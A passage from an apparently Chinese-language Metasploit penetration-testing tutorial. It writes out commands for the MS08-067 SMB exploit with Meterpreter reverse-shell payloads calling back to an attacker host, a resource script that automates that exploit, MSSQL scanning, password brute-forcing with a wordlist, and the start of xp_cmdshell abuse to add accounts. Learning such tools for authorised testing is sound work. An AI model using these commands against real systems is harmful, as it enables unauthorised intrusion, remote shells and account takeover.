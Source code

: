 #### 2、暴力端口探测： 
当主机端口对外开放但是普通探测方法无法探测到时，用此模块，msf 将对目标的所有 
端口进行尝试，直到找到一个开放端口并与测试者建立连接。 
例子： 
```
use exploit/windows/smb/ms08_067_netapi 
set LHOST 192.168.1.111 
set RHOST 192.168.1.122 
set TARGET 39 #Windows XP SP3 Chinese - Simplified (NX) 
search ports #搜索与ports 相关模块 
set PAYLOAD windows/meterpreter/reverse_tcp_allports 
exploit –j #作为后台任务运行 
sessions –l –v 
sesssions –i 1
```
#### 3、MSF 脚本文件： 
为了缩短测试时间可以将msf 命令写入一个文件，然后在msf 中加载它。 
加载方式：msfconsole 的resource 命令或者msfconsole 加上-r 选项 
例子： 
```
echo ‘version’ > resource.rc 
echo ‘load sounds’ >> resource.rc 
msfconsole –r resource.rc 
```
例子： 
```
echo ‘use exploit/windows/smb/ms08_067_netapi’ > autoexp.rc 
echo ‘set RHOST 192.168.1.133’ >> autoexp.rc 
echo ‘set PAYLOAD windows/meterpreter/reverse_tcp’ >> autoexp.rc 
echo ‘set LHOST 192.168.1.111’ >> autoexp.rc 
echo ‘exploit’ >> autoexp.rc 
msfconsole 
msf> resource autoexp.rc
```

### 六．Meterpreter
#### 1、当对目标系统进行溢出时，使用meterpreter 作为payload，给测试者返回一个shell，可用于在目标机器上执行更多的操作。 
例子： 
```
msf> nmap –sT –A –P0 192.168.1.130 #探测开放服务 
假如已经探测到1433（TCP）和1434(UDP)端口（mssql）， 
msf> nmap –sU 192.168.1.130 –P 1434 #确认端口开放 
msf> use auxiliary/scanner/mssql/mssql_ping 
show options 
set RHOSTS 192.168.1.1/24 
set THREADS 20 
exploit
``` 
至此可获取服务器名称，版本号等信息。 
```
msf> use auxiliary/scanner/mssql/mssql_login 
show options 
set PASS_FILE /pentest/exploits/fasttrack/bin/dict/wordlist.txt 
set RHOSTS 192.168.1.130 
set THREADS 10 
set verbose false 
exploit 
```
暴力猜解登陆密码。
接下来使用mssql 自带的xp_cmdshell 功能添加账户： 
```
msf> use exploit/windows/mssql/mssql_payload 
show options 
```
